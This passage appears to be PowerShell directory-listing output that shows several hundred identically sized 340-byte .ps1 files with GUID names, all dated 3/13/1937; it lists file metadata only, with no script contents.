-ar---        3/13/1937  11:37 AM            340 777819af-0d25-464d-922b-c5cb44a86657.ps1
-ar---        3/13/1937  11:37 AM            340 77e566db-5935-4fda-9f64-06d44193a49f.ps1
-ar---        3/13/1937  11:37 AM            340 7808f6b5-5def-4275-8d52-350912419bc1.ps1
-ar---        3/13/1937  11:37 AM            340 78340189-3da9-4459-86ab-91229d2e0792.ps1
-ar---        3/13/1937  11:37 AM            340 78594fdb-eca2-4321-97cd-9865ab747634.ps1
-ar---        3/13/1937  11:37 AM            340 7903eca3-fc04-4b11-83da-d52991a56b95.ps1
-ar---        3/13/1937  11:37 AM            340 79090fb8-46f4-4b17-bd11-51f5d6bae0d0.ps1
-ar---        3/13/1937  11:37 AM            340 7914ccb1-0d12-43b9-9d4c-8db3ed1b0059.ps1
-ar---        3/13/1937  11:37 AM            340 7919373c-2a73-4a04-a772-277ecad63606.ps1
-ar---        3/13/1937  11:37 AM            340 79468f57-c937-4592-83b6-516b3f56b2c5.ps1
-ar---        3/13/1937  11:37 AM            340 79b23c09-7b46-443c-9eb5-789ed1b7dccd.ps1
-ar---        3/13/1937  11:37 AM            340 7a0e0952-286b-4058-ba46-9d8a3bff71ef.ps1
-ar---        3/13/1937  11:37 AM            340 7a423412-7645-4b2b-a30f-b3e41aa3eb97.ps1
-ar---        3/13/1937  11:37 AM            340 7a4f09bb-e5fe-4cd3-893c-7cdebdcfabca.ps1
-ar---        3/13/1937  11:37 AM            340 7a4f8b4c-2e09-42c0-b539-68a0c1c33ab6.ps1
-ar---        3/13/1937  11:37 AM            340 7a59d3a0-0637-4ee7-bbbf-c670dedb47e8.ps1
-ar---        3/13/1937  11:37 AM            340 7a9da63c-a3c7-47a3-bad2-d0ac933b6705.ps1
-ar---        3/13/1937  11:37 AM            340 7ae19833-8bf0-48e5-9e80-9466c71cf4de.ps1
-ar---        3/13/1937  11:37 AM            340 7af61261-cefa-434b-88a7-cfaa723ef1a1.ps1
-ar---        3/13/1937  11:37 AM            340 7b07be50-fe18-4dde-8e29-e7a8e145d8eb.ps1
-ar---        3/13/1937  11:37 AM            340 7b632f8d-15cd-4bc7-81e5-0064e28c4d12.ps1
-ar---        3/13/1937  11:37 AM            340 7b74b3f2-e1de-4044-ac69-661aae9a4d15.ps1
-ar---        3/13/1937  11:37 AM            340 7b85faa6-5013-402a-9e2a-5e55180d567e.ps1
-ar---        3/13/1937  11:37 AM            340 7bba5841-7332-46e4-871d-56206acdacd7.ps1
-ar---        3/13/1937  11:37 AM            340 7bf3fdb5-0028-4345-988a-a6922f48d1d1.ps1
-ar---        3/13/1937  11:37 AM            340 7bf5fc44-1f0f-4fc0-aa08-7c26ad4cee36.ps1
-ar---        3/13/1937  11:37 AM            340 7c1a201b-09ba-4224-ae4d-8195b0f3e864.ps1
-ar---        3/13/1937  11:37 AM            340 7c336fe8-b3ee-437f-ad14-9b4fd85db82f.ps1
-ar---        3/13/1937  11:37 AM            340 7c42a01b-f63f-4384-947b-d1b1755d454d.ps1
-ar---        3/13/1937  11:37 AM            340 7c6efe22-1a03-4010-8315-148c8a325d21.ps1
-ar---        3/13/1937  11:37 AM            340 7c809cf4-8894-4f93-80a4-284e45558962.ps1
-ar---        3/13/1937  11:37 AM            340 7cb367ea-6d3e-40a7-b7f6-98c749a29c10.ps1
-ar---        3/13/1937  11:37 AM            340 7ce69a66-f172-41c5-9e17-664395add9de.ps1
-ar---        3/13/1937  11:37 AM            340 7cf88830-abdd-4cad-9feb-019f9de4307f.ps1
-ar---        3/13/1937  11:37 AM            340 7d1dcbcb-f1f1-4820-8551-50165057327a.ps1
-ar---        3/13/1937  11:37 AM            340 7d38aaeb-fdd7-4e24-8f53-d67e6fbe7661.ps1
-ar---        3/13/1937  11:37 AM            340 7d492558-6c12-46cd-b4a7-2f6ec02fb92e.ps1
-ar---        3/13/1937  11:37 AM            340 7d553248-d3ce-4821-adac-d5d296d862e0.ps1
-ar---        3/13/1937  11:37 AM            340 7d5c1016-741a-46a7-a279-d98aecdb21eb.ps1
-ar---        3/13/1937  11:37 AM            340 7df5650c-3368-4369-bf48-277a69fb734a.ps1
-ar---        3/13/1937  11:37 AM            340 7df61b6a-1662-423a-97f3-8a3c425c82a3.ps1
-ar---        3/13/1937  11:37 AM            340 7e1a8604-0fc7-453f-aa15-17ceee1dcd31.ps1
-ar---        3/13/1937  11:37 AM            340 7f247e8b-08bc-4d61-b6ab-dd8d4fb98051.ps1
-ar---        3/13/1937  11:37 AM            340 7f7f4d93-6188-4122-bd9e-249cb24956fd.ps1
-ar---        3/13/1937  11:37 AM            340 7f9951f6-7c42-4e2c-ad9d-fb73b507392f.ps1
-ar---        3/13/1937  11:37 AM            340 7fdd92ff-d259-4a3d-97ff-2a708c100c46.ps1
-ar---        3/13/1937  11:37 AM            340 7fe19b19-dfe3-4ac9-9df6-0c4e3b3b72ba.ps1
-ar---        3/13/1937  11:37 AM            340 80201b59-33ac-4412-b818-d2c59413380a.ps1
-ar---        3/13/1937  11:37 AM            340 8070e62e-ff02-4522-ac42-d1be032bf0cf.ps1
-ar---        3/13/1937  11:37 AM            340 807f82e4-8e67-4d54-b460-6aa3f05f612f.ps1
-ar---        3/13/1937  11:37 AM            340 8081b3da-9aa0-41d5-8585-3fc90509441c.ps1
-ar---        3/13/1937  11:37 AM            340 808aeb47-9eef-4d0f-ab6e-6c3587083196.ps1
-ar---        3/13/1937  11:37 AM            340 80e05899-bf54-447c-91db-399a5e0eaec9.ps1
-ar---        3/13/1937  11:37 AM            340 810e9432-ed24-44c1-90e0-c0adec1e90a1.ps1
-ar---        3/13/1937  11:37 AM            340 81115e94-19a0-42ab-8201-f77b74336d8d.ps1
-ar---        3/13/1937  11:37 AM            340 812d9f14-d00f-4e34-a9a4-219881336030.ps1
-ar---        3/13/1937  11:37 AM            340 8145988c-2b4e-408c-9aec-0fbd3501cb5e.ps1
-ar---        3/13/1937  11:37 AM            340 8167df41-94c7-4051-891a-9d2a8f90e774.ps1
-ar---        3/13/1937  11:37 AM            340 81b00ea2-5187-4a1a-b0e2-0c72e78eb7db.ps1
-ar---        3/13/1937  11:37 AM            340 81eb1ee7-bb7b-4a46-99c4-84bed700d9d9.ps1
-ar---        3/13/1937  11:37 AM            340 82101f82-d0cf-4a42-b37d-f0237ceb964c.ps1
-ar---        3/13/1937  11:37 AM            340 821a21db-7199-4fcc-b8db-795364ae11d3.ps1
-ar---        3/13/1937  11:37 AM            340 821d92e9-8827-4e70-86cc-55575b547c60.ps1
-ar---        3/13/1937  11:37 AM            340 822b66ef-f68c-4e6f-859f-a97b211ab86e.ps1
-ar---        3/13/1937  11:37 AM            340 823c5ba6-50c4-4cf9-ab39-5eb359c222db.ps1
-ar---        3/13/1937  11:37 AM            340 827acee8-434f-43c6-89f8-630954c88b8b.ps1
-ar---        3/13/1937  11:37 AM            340 82e3e905-1fc2-4873-9ff6-4e63bdc8fe4e.ps1
-ar---        3/13/1937  11:37 AM            340 8326367f-d2ee-4d1c-b2d7-c55a6e9f6b9a.ps1
-ar---        3/13/1937  11:37 AM            340 83654d14-ef7f-4e83-bbc4-4a45b9ba4503.ps1
-ar---        3/13/1937  11:37 AM            340 83670bc8-233a-4b28-b792-6dc876ec7125.ps1
-ar---        3/13/1937  11:37 AM            340 8399234a-fff4-462a-b0ac-25257b477ed3.ps1
-ar---        3/13/1937  11:37 AM            340 83ab4302-d885-4955-94c7-2f0825f6dba5.ps1
-ar---        3/13/1937  11:37 AM            340 83f01a9b-5215-4d5a-99a9-8a587b93c071.ps1
-ar---        3/13/1937  11:37 AM            340 8420fb09-d3a6-4db1-bbfe-c5a4551997dc.ps1
-ar---        3/13/1937  11:37 AM            340 84759a16-4971-4a5c-8284-5a9af3820a28.ps1
-ar---        3/13/1937  11:37 AM            340 84ad7121-6822-4c57-ab97-ffbf98ef2887.ps1
-ar---        3/13/1937  11:37 AM            340 84b764c0-3f37-4c17-86e7-80a7204bca3a.ps1
-ar---        3/13/1937  11:37 AM            340 84ca8fbd-9322-4752-a50c-5bf7c2a8808e.ps1
-ar---        3/13/1937  11:37 AM            340 850d2a4c-6b43-4afc-9a3f-a4d0aef733be.ps1
-ar---        3/13/1937  11:37 AM            340 85143c4f-d8df-4884-84a2-7e49cceb9030.ps1
-ar---        3/13/1937  11:37 AM            340 854b3f09-df36-4da3-8943-99e063f34cd1.ps1
-ar---        3/13/1937  11:37 AM            340 85e8b55d-2121-4a79-8128-18cbaf0a4ab3.ps1
-ar---        3/13/1937  11:37 AM            340 85f26835-9bae-4455-b714-8234fb7b4552.ps1
-ar---        3/13/1937  11:37 AM            340 85f86a66-3730-48b0-860a-c606f00a5a63.ps1
-ar---        3/13/1937  11:37 AM            340 8628cfc2-9530-4677-bf03-7f39e6004220.ps1
-ar---        3/13/1937  11:37 AM            340 86614e42-1ecb-43bc-b9d3-26b1f91f2888.ps1
-ar---        3/13/1937  11:37 AM            340 86be1c1b-6a47-4ea3-8a58-03790cc67815.ps1
-ar---        3/13/1937  11:37 AM            340 86d57948-c94c-4e9c-aff6-4f7a578f32ac.ps1
-ar---        3/13/1937  11:37 AM            340 87437530-f105-4131-af54-2d541b8c283d.ps1
-ar---        3/13/1937  11:37 AM            340 876c5927-d26f-4aaa-95dd-ae4836626625.ps1
-ar---        3/13/1937  11:37 AM            340 87853b8f-e692-4ac3-ac8b-402e60bef659.ps1
-ar---        3/13/1937  11:37 AM            340 87abd5fb-5f39-492a-82dc-759d0ce1c026.ps1
-ar---        3/13/1937  11:37 AM            340 87b0091f-50c9-449c-b0d8-82ac995395f0.ps1
-ar---        3/13/1937  11:37 AM            340 87d3e3cf-fb19-474d-9494-110722efec15.ps1
-ar---        3/13/1937  11:37 AM            340 87d54d0c-eec7-42e5-9bf5-a86e06572474.ps1
-ar---        3/13/1937  11:37 AM            340 87eced86-76ef-4d5f-8d05-9869beb2227d.ps1
-ar---        3/13/1937  11:37 AM            340 8815dacf-e215-4305-8779-4dd25d276c07.ps1
-ar---        3/13/1937  11:37 AM            340 8850c654-ec86-4a03-9b97-afd223945180.ps1
-ar---        3/13/1937  11:37 AM            340 88595742-bd79-47a2-970d-d94c81a8f8d4.ps1
-ar---        3/13/1937  11:37 AM            340 885aab7e-58c8-4527-ba63-d7cdb59e62ee.ps1
-ar---        3/13/1937  11:37 AM            340 887c3ddb-5f4c-4f10-afe7-a6cb8dede353.ps1
-ar---        3/13/1937  11:37 AM            340 888fd7bd-403e-42dd-b0f8-08f569206aa9.ps1
-ar---        3/13/1937  11:37 AM            340 88a54281-1cfc-484c-94b1-319839833b62.ps1
-ar---        3/13/1937  11:37 AM            340 88c209ee-aa55-44be-8570-d24dfaf8fd32.ps1
-ar---        3/13/1937  11:37 AM            340 88ebf5f5-8150-4621-9647-b9ec8d39696f.ps1
-ar---        3/13/1937  11:37 AM            340 89222948-4fa7-417c-a2ce-586a85f4441f.ps1
-ar---        3/13/1937  11:37 AM            340 8949d1ef-9e7e-42f9-8d35-664582a3b820.ps1
-ar---        3/13/1937  11:37 AM            340 89646d06-40a8-4027-b88f-4206bd2767b0.ps1
-ar---        3/13/1937  11:37 AM            340 899d34f0-5525-4ebf-8e4f-bd49c974f6c6.ps1
-ar---        3/13/1937  11:37 AM            340 89c23afd-7dc8-4cfc-a74e-9f392ad115a3.ps1
-ar---        3/13/1937  11:37 AM            340 89c9475d-d3ae-45c8-a672-cc4b02ce9bba.ps1
-ar---        3/13/1937  11:37 AM            340 8a22f2ca-b8aa-4d1f-b82a-807fd7fb2162.ps1
-ar---        3/13/1937  11:37 AM            340 8a34c05d-c444-4c9f-8239-142ebf90496f.ps1
-ar---        3/13/1937  11:37 AM            340 8a66ee16-9263-473a-91f0-61420c3edc3f.ps1
-ar---        3/13/1937  11:37 AM            340 8a7d6901-c7f3-405b-a887-0edfa7ab0b71.ps1
-ar---        3/13/1937  11:37 AM            340 8a908ed7-4498-4a17-a40d-7643648741f2.ps1
-ar---        3/13/1937  11:37 AM            340 8a91b94c-f4fd-4e29-a716-871b9867c3ff.ps1
-ar---        3/13/1937  11:37 AM            340 8aa9b863-9893-43d1-ae16-31f1744408bb.ps1
-ar---        3/13/1937  11:37 AM            340 8b029d30-5abc-471d-a9fd-17a21521156a.ps1
-ar---        3/13/1937  11:37 AM            340 8b0d6a98-128d-49ca-b832-8e11af8535a5.ps1
-ar---        3/13/1937  11:37 AM            340 8b3d0c17-921d-481c-9ec7-bfc9ed35e60e.ps1
-ar---        3/13/1937  11:37 AM            340 8b663854-0066-47f7-88cd-bf738e2397ce.ps1
-ar---        3/13/1937  11:37 AM            340 8bd2566c-cce1-45e9-be99-a36ffe87cf4d.ps1
-ar---        3/13/1937  11:37 AM            340 8c420fb1-6d03-46df-ac17-f97360c762b4.ps1
-ar---        3/13/1937  11:37 AM            340 8c7e1174-ec4b-4fe1-9cae-ecc673766b17.ps1
-ar---        3/13/1937  11:37 AM            340 8c9dabc8-ffba-444a-b7d7-62732198c471.ps1
-ar---        3/13/1937  11:37 AM            340 8cc4355d-59d9-4174-afe9-f6952bf0fd7b.ps1
-ar---        3/13/1937  11:37 AM            340 8cea76aa-a347-4edc-beb2-8fa5f5b8fa6b.ps1
-ar---        3/13/1937  11:37 AM            340 8d2a64d6-f455-40d8-bc71-d3818d0d69aa.ps1
-ar---        3/13/1937  11:37 AM            340 8d4586df-5748-4758-91d6-50932f178f88.ps1
-ar---        3/13/1937  11:37 AM            340 8d8d7aab-f7c7-4cf0-8762-424049e6132a.ps1
-ar---        3/13/1937  11:37 AM            340 8dd8d380-a490-437a-9a02-1c46728a1ae7.ps1
-ar---        3/13/1937  11:37 AM            340 8dda7671-f1a9-41d8-ae14-a414013fe1be.ps1
-ar---        3/13/1937  11:37 AM            340 8e095da2-b7e7-40c0-adc8-c901d351c9e7.ps1
-ar---        3/13/1937  11:37 AM            340 8e551ba1-0d65-4cde-938f-1e2c1ddc7d89.ps1
-ar---        3/13/1937  11:37 AM            340 8e605aa0-2e92-47ec-a539-31de06afc2c5.ps1
-ar---        3/13/1937  11:37 AM            340 8e74c049-8479-4665-97f4-fa68ee839008.ps1
-ar---        3/13/1937  11:37 AM            340 8e791e08-88d8-4b32-a3a5-06d7dda9280a.ps1
-ar---        3/13/1937  11:37 AM            340 8ea588f2-e0d1-4026-bff8-6c8c7821628a.ps1
-ar---        3/13/1937  11:37 AM            340 8ea710ae-70a4-40fa-95ec-4c80f90d16d5.ps1
-ar---        3/13/1937  11:37 AM            340 8f44a0f4-5e1b-492f-a243-dd4fbbe4630f.ps1
-ar---        3/13/1937  11:37 AM            340 8f8335c0-c921-47f4-b383-09599a370c0d.ps1
-ar---        3/13/1937  11:37 AM            340 8f96c6ba-9f17-46ff-94fb-5e7e66d23e8f.ps1
-ar---        3/13/1937  11:37 AM            340 8fce662e-c535-4a36-a0dd-9e8df9262774.ps1
-ar---        3/13/1937  11:37 AM            340 8fd05455-9a97-428f-8756-94d78530317b.ps1
-ar---        3/13/1937  11:37 AM            340 9014ab81-795d-4630-adf4-5cc585073dd1.ps1
-ar---        3/13/1937  11:37 AM            340 9080cb30-83d2-4ae8-8b66-6779f3c15209.ps1
-ar---        3/13/1937  11:37 AM            340 90ade045-5060-4228-8a2b-78632fa6b7ba.ps1
-ar---        3/13/1937  11:37 AM            340 90bbb24e-3201-4ea2-b248-7f9522afd2f9.ps1
-ar---        3/13/1937  11:37 AM            340 90d5110a-8e2f-473d-8d08-6badc5793fa3.ps1
-ar---        3/13/1937  11:37 AM            340 90e273df-5346-4cb4-aaad-71edc8e614bb.ps1
-ar---        3/13/1937  11:37 AM            340 911dfc30-9b84-4730-8a66-fab8cda56950.ps1
-ar---        3/13/1937  11:37 AM            340 91578455-e297-499e-a5ae-47991fcc1a47.ps1
-ar---        3/13/1937  11:37 AM            340 91b5eda5-04c4-4927-bbf2-035d7cc2a0ec.ps1
-ar---        3/13/1937  11:37 AM            340 91fc8175-cf42-4603-9047-7d3afda60917.ps1
-ar---        3/13/1937  11:37 AM            340 9237f39c-703d-4543-bd2a-d9f9367b2eb6.ps1
-ar---        3/13/1937  11:37 AM            340 923de9ab-5689-46fc-a991-9c4d53d21ac0.ps1
-ar---        3/13/1937  11:37 AM            340 926914da-6d63-4653-94df-994126be7c24.ps1
-ar---        3/13/1937  11:37 AM            340 92ab0ded-f901-46ec-86c3-0dc5a9cc3aaa.ps1
-ar---        3/13/1937  11:37 AM            340 92d54b72-6600-4b8f-b61b-e74e0337940e.ps1
-ar---        3/13/1937  11:37 AM            340 92df27d2-0f0e-4eb2-975e-d29a6e50a756.ps1
-ar---        3/13/1937  11:37 AM            340 93475ce4-9ae1-4d65-93e8-5e42f66a43a2.ps1
-ar---        3/13/1937  11:37 AM            340 93c7acf8-e0c7-4907-bc3a-5566e3fa263e.ps1
-ar---        3/13/1937  11:37 AM            340 947f0ef9-2bbc-4541-ac02-4b534e501413.ps1
-ar---        3/13/1937  11:37 AM            340 95062af7-96aa-4da7-9bf4-b03e7309f749.ps1
-ar---        3/13/1937  11:37 AM            340 95458093-2356-4e38-946a-6f7bc408bbad.ps1
-ar---        3/13/1937  11:37 AM            340 95db6f69-6d6e-472e-8711-86def19e62fd.ps1
-ar---        3/13/1937  11:37 AM            340 9611ea73-c76b-44e8-920a-d241f5fb964e.ps1
-ar---        3/13/1937  11:37 AM            340 9654a8d4-c9c9-4e67-b67f-5a454e918e8a.ps1
-ar---        3/13/1937  11:37 AM            340 967fa41a-fa40-4a00-9457-491d4173bd63.ps1
-ar---        3/13/1937  11:37 AM            340 968c0cc7-8b81-4269-bdfd-9a95bf9e66bd.ps1
-ar---        3/13/1937  11:37 AM            340 96a88d52-13e1-4313-b018-28b072bbcfe5.ps1
-ar---        3/13/1937  11:37 AM            340 97b43217-ad15-4545-9737-e6c5d46ebc23.ps1
-ar---        3/13/1937  11:37 AM            340 97f6ceb8-f91a-47ce-a72c-f5377a7ced67.ps1
-ar---        3/13/1937  11:37 AM            340 980b0d62-32ea-4618-853c-e907a731130c.ps1
-ar---        3/13/1937  11:37 AM            340 981677d1-e2de-4213-ba8e-85c1533d94f6.ps1
-ar---        3/13/1937  11:37 AM            340 98400a2d-507f-40e8-8b97-9de498aa081c.ps1
-ar---        3/13/1937  11:37 AM            340 98456441-b5cb-47b1-bd76-6a5790c359ab.ps1
-ar---        3/13/1937  11:37 AM            340 98a04a1b-83c4-4383-b1cc-af2af978d483.ps1
-ar---        3/13/1937  11:37 AM            340 98aa3e12-9696-48ed-8f49-d67e0bc3103c.ps1
-ar---        3/13/1937  11:37 AM            340 99170032-93ee-4763-b14f-b277215901d3.ps1
-ar---        3/13/1937  11:37 AM            340 994964d0-bd39-4ea3-b135-c62ab49024f6.ps1
-ar---        3/13/1937  11:37 AM            340 994e78f2-2aa8-41c1-8f2c-8aa1cc1f9a27.ps1
-ar---        3/13/1937  11:37 AM            340 995bad2f-119c-4a6c-aba8-7f8fb996cd1c.ps1
-ar---        3/13/1937  11:37 AM            340 99afdc91-a7c4-4dbc-9ecc-b7672f70ae31.ps1
-ar---        3/13/1937  11:37 AM            340 99b3957c-0119-492b-8599-422f60648390.ps1
-ar---        3/13/1937  11:37 AM            340 99b61edd-d0f0-46dc-ba72-22dccfbf80c9.ps1
-ar---        3/13/1937  11:37 AM            340 99ded39c-2a02-4eb0-936d-62f07508edea.ps1
-ar---        3/13/1937  11:37 AM            340 9a68cfd1-cd6f-4337-bc0f-6256dba6c9b7.ps1
-ar---        3/13/1937  11:37 AM            340 9a6ecd70-876a-4698-ab86-f24653094a83.ps1
-ar---        3/13/1937  11:37 AM            340 9a709f35-8b66-4724-9396-f0308779ffec.ps1
-ar---        3/13/1937  11:37 AM            340 9b479984-7d4c-406e-8653-edf91788c1c4.ps1
-ar---        3/13/1937  11:37 AM            340 9b54465d-3cfe-4bbf-94d6-ba63fa7edbfd.ps1
-ar---        3/13/1937  11:37 AM            340 9b5733a9-30cd-499e-889c-8bd7ac6e16f0.ps1
-ar---        3/13/1937  11:37 AM            340 9b953500-5865-4375-b7f1-1fed7d143d82.ps1
-ar---        3/13/1937  11:37 AM            340 9b957695-b767-4db8-addd-db6cfa0d09d6.ps1
-ar---        3/13/1937  11:37 AM            340 9b99dba0-2bf5-4048-a6d7-a278e2a24e52.ps1
-ar---        3/13/1937  11:37 AM            340 9bacba77-2b2f-4b68-aa45-2cc9f8da4515.ps1
-ar---        3/13/1937  11:37 AM            340 9bd03892-f2ff-4b84-988a-865aaae8f6bf.ps1
-ar---        3/13/1937  11:37 AM            340 9bd0df8f-2fc5-43fd-8a12-4912f72c4dd6.ps1
-ar---        3/13/1937  11:37 AM            340 9bd86ba5-ad55-4e02-8e7d-0c69a4358f28.ps1
-ar---        3/13/1937  11:37 AM            340 9bd981ae-603c-4b4a-819d-f87e818bf489.ps1
-ar---        3/13/1937  11:37 AM            340 9c0c1663-a78d-4098-a9b3-a4890d90cc4d.ps1
-ar---        3/13/1937  11:37 AM            340 9c40c4a4-3916-4f69-9be9-dfde592d1472.ps1
-ar---        3/13/1937  11:37 AM            340 9c76bef1-cbc8-47ad-b8f5-0814212da519.ps1
-ar---        3/13/1937  11:37 AM            340 9cdf7121-6682-464e-8e2a-6f956d47ae60.ps1
-ar---        3/13/1937  11:37 AM            340 9d0f6b5d-c612-4054-a66c-be22386b5eef.ps1
-ar---        3/13/1937  11:37 AM            340 9d73601a-2be3-4b9e-b36a-3929d14428cf.ps1
-ar---        3/13/1937  11:37 AM            340 9d957841-37ac-48d4-84a7-cff6a580a582.ps1
-ar---        3/13/1937  11:37 AM            340 9dc5fa88-ce34-4d85-9d7a-0508ede3efd0.ps1
-ar---        3/13/1937  11:37 AM            340 9dd90160-ac77-48d1-bdef-78e3845897d9.ps1
-ar---        3/13/1937  11:37 AM            340 9de4c6b6-72ff-44b7-b8ff-04cb40e7ccfb.ps1
-ar---        3/13/1937  11:37 AM            340 9e86064b-d748-4322-aff7-e772e0f10423.ps1
-ar---        3/13/1937  11:37 AM            340 9eebfc9a-2e87-433f-bf88-220f10962bfc.ps1
-ar---        3/13/1937  11:37 AM            340 9f02ed8b-4539-417c-b4ff-90e89b08abe7.ps1
-ar---        3/13/1937  11:37 AM            340 9f77df52-ec84-472b-8a41-f52929d68b04.ps1
-ar---        3/13/1937  11:37 AM            340 9f86c9d2-f56d-4442-a1f4-350d6bf9c129.ps1
-ar---        3/13/1937  11:37 AM            340 9f9b1100-9db0-4beb-b00b-11d02e76a881.ps1
-ar---        3/13/1937  11:37 AM            340 9ff1a1a8-56d1-4e71-8487-f66fa01560d6.ps1
-ar---        3/13/1937  11:37 AM            340 a00babcd-a94f-4d6d-9e3b-99340c410880.ps1
-ar---        3/13/1937  11:37 AM            340 a0131051-f103-41d1-bbab-e41b3eab0102.ps1
-ar---        3/13/1937  11:37 AM            340 a01fdb15-f536-4f55-9c07-b764eadf6925.ps1
-ar---        3/13/1937  11:37 AM            340 a08bfe5c-661a-4e77-a596-d4fd7d09da70.ps1
-ar---        3/13/1937  11:37 AM            340 a08d60dc-79dc-4798-a1d2-b9c1212ecb71.ps1
-ar---        3/13/1937  11:37 AM            340 a0b583cf-16cd-4719-b626-e91b5cbefd1e.ps1
-ar---        3/13/1937  11:37 AM            340 a127fb91-cb11-4c11-8209-37eecf3b2a1e.ps1
-ar---        3/13/1937  11:37 AM            340 a151dc49-94c8-48b4-ba73-a943b4d35659.ps1
-ar---        3/13/1937  11:37 AM            340 a1936504-7637-42c9-95a0-10605d995eee.ps1
-ar---        3/13/1937  11:37 AM            340 a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1
-ar---        3/13/1937  11:37 AM            340 a202a9b9-7b0b-4e21-96b2-20eb9a10db50.ps1
-ar---        3/13/1937  11:37 AM            340 a282b83d-d06c-487b-8155-1e78355265d3.ps1
-ar---        3/13/1937  11:37 AM            340 a2c4c6e9-f7bc-4a7f-94bb-f47e80325784.ps1
-ar---        3/13/1937  11:37 AM            340 a2c9b16a-a06b-4f0d-8937-f0fce63396b2.ps1
-ar---        3/13/1937  11:37 AM            340 a31b6fa7-e235-4b9b-82b1-2e5b0ae17dd0.ps1
-ar---        3/13/1937  11:37 AM            340 a323f03b-dd90-48a8-bca0-570a89e2627a.ps1
-ar---        3/13/1937  11:37 AM            340 a32d1cc5-a4a0-468d-b92d-164465d222cb.ps1
-ar---        3/13/1937  11:37 AM            340 a34aeef2-caf4-4126-a74e-61b0d5261e6c.ps1
-ar---        3/13/1937  11:37 AM            340 a34d2604-7d4b-4433-b7bd-b944fd024acd.ps1
-ar---        3/13/1937  11:37 AM            340 a3638fc8-7689-49f3-a1dc-0bca4b3ecf02.ps1
-ar---        3/13/1937  11:37 AM            340 a36c6b83-1cf7-4fab-a8c1-9f92dfa114db.ps1
-ar---        3/13/1937  11:37 AM            340 a3a1177f-e095-4e64-99b3-18ecb1fde833.ps1
-ar---        3/13/1937  11:37 AM            340 a3ae5112-5275-46d6-b263-78ad8dc9af32.ps1
-ar---        3/13/1937  11:37 AM            340 a40e8db0-3229-400f-ab1f-d78cfdf3bf2b.ps1
-ar---        3/13/1937  11:37 AM            340 a413b17d-eef0-496c-902d-8b13f19ab54f.ps1
-ar---        3/13/1937  11:37 AM            340 a4298d8b-e29a-4361-81a4-adc85777b0c8.ps1
-ar---        3/13/1937  11:37 AM            340 a44238bf-5d09-44a0-b222-3ac78fecdc41.ps1
-ar---        3/13/1937  11:37 AM            340 a4623149-443e-4806-a2a5-1e7caf637462.ps1
-ar---        3/13/1937  11:37 AM            340 a4661468-25eb-445f-b4c9-381e77ce3b4c.ps1
-ar---        3/13/1937  11:37 AM            340 a4770951-201d-4630-ae92-c2eaaf537c06.ps1
-ar---        3/13/1937  11:37 AM            340 a4904727-9a6b-4a51-af84-d8a59673402b.ps1
-ar---        3/13/1937  11:37 AM            340 a4959805-d2e2-4176-a720-3e174da6a6cd.ps1
-ar---        3/13/1937  11:37 AM            340 a4e7d26e-415f-4f4f-929d-f9cb45f046d7.ps1
-ar---        3/13/1937  11:37 AM            340 a4fa912d-3462-4365-baed-e21590ee34e2.ps1
-ar---        3/13/1937  11:37 AM            340 a563478d-9c81-428a-b03f-4134bf6008fd.ps1
-ar---        3/13/1937  11:37 AM            340 a5deda76-fa79-4737-ab5c-94cb10866dc0.ps1
-ar---        3/13/1937  11:37 AM            340 a5e6a868-dc14-493e-890a-528838e46af6.ps1
-ar---        3/13/1937  11:37 AM            340 a61c1d48-ac19-4bf7-93a4-e19e6a503a74.ps1
-ar---        3/13/1937  11:37 AM            340 a63a1883-1fa1-46f0-a2f0-c107e4baf699.ps1
-ar---        3/13/1937  11:37 AM            340 a67826b8-7d47-465b-921e-6fadf90cc3cb.ps1
-ar---        3/13/1937  11:37 AM            340 a68f1e9a-c485-42ce-a89b-e17cceabfedb.ps1
-ar---        3/13/1937  11:37 AM            340 a6a7f488-8691-4791-acea-a1b1de12ae48.ps1
-ar---        3/13/1937  11:37 AM            340 a6ef18f8-f725-400b-b8ce-4d786bb8dc02.ps1
-ar---        3/13/1937  11:37 AM            340 a74b8bd7-3b0a-4c31-9a9b-618d1641eb38.ps1
-ar---        3/13/1937  11:37 AM            340 a7a3789c-00a8-4015-b557-9eadb7f08bec.ps1
-ar---        3/13/1937  11:37 AM            340 a8039702-8513-496e-a407-3ddef368114c.ps1
-ar---        3/13/1937  11:37 AM            340 a81d4855-fbb0-4ced-85e8-759fd983d3da.ps1
-ar---        3/13/1937  11:37 AM            340 a86cd954-65ab-4891-9098-43b309aa2bc8.ps1
-ar---        3/13/1937  11:37 AM            340 a87947fe-84da-4b40-bc06-a7c18de04c3f.ps1
-ar---        3/13/1937  11:37 AM            340 a8da46b6-c7ed-4d7f-946e-525aae54f30e.ps1
-ar---        3/13/1937  11:37 AM            340 a916df7d-0833-4044-a83c-2c41389f3274.ps1
-ar---        3/13/1937  11:37 AM            340 a91a37a3-5251-452c-81ea-ce2f491aacd6.ps1
-ar---        3/13/1937  11:37 AM            340 a92d70ad-d98c-4521-91eb-c0b10dfe4e48.ps1
-ar---        3/13/1937  11:37 AM            340 a93584c0-0ad0-4cdf-9e0c-78016cc77085.ps1
-ar---        3/13/1937  11:37 AM            340 a95b2b9e-9f63-4a85-8e84-619647fd597f.ps1
-ar---        3/13/1937  11:37 AM            340 a97f3c3d-b3d0-4e6c-8308-973e2f1f133a.ps1
-ar---        3/13/1937  11:37 AM            340 aa225a52-4a99-4c86-bdd0-6dc3e79e1e81.ps1
-ar---        3/13/1937  11:37 AM            340 aa360752-9729-4f18-88f3-423c37ced32d.ps1
-ar---        3/13/1937  11:37 AM            340 aa7e87fd-2959-426b-b759-da2cd94dccb6.ps1
-ar---        3/13/1937  11:37 AM            340 aa84b86b-b654-4335-8b60-4bfdd730c862.ps1
-ar---        3/13/1937  11:37 AM            340 aab50893-ef49-4f84-ae1e-3379a8a3ed93.ps1
-ar---        3/13/1937  11:37 AM            340 ab0a57f8-eafd-4de7-acc7-3ddd223b00ea.ps1
-ar---        3/13/1937  11:37 AM            340 ab263b1d-74f6-4d71-b45d-490ecf4291a1.ps1
-ar---        3/13/1937  11:37 AM            340 ab28ac70-173d-490c-a803-2672508bc0fd.ps1
-ar---        3/13/1937  11:37 AM            340 ab3315e2-68dd-4684-ae50-af5a8012ba52.ps1
-ar---        3/13/1937  11:37 AM            340 ab3c56d8-8f06-4223-8812-e8d13e2d4e4f.ps1
-ar---        3/13/1937  11:37 AM            340 ab4321e2-6454-471c-a81b-2423d0a63a09.ps1
-ar---        3/13/1937  11:37 AM            340 ac234794-7b5c-4812-bbf3-f59d4afd6cff.ps1
-ar---        3/13/1937  11:37 AM            340 ac318a4b-1869-4d09-8fc8-aacaa027d3e2.ps1
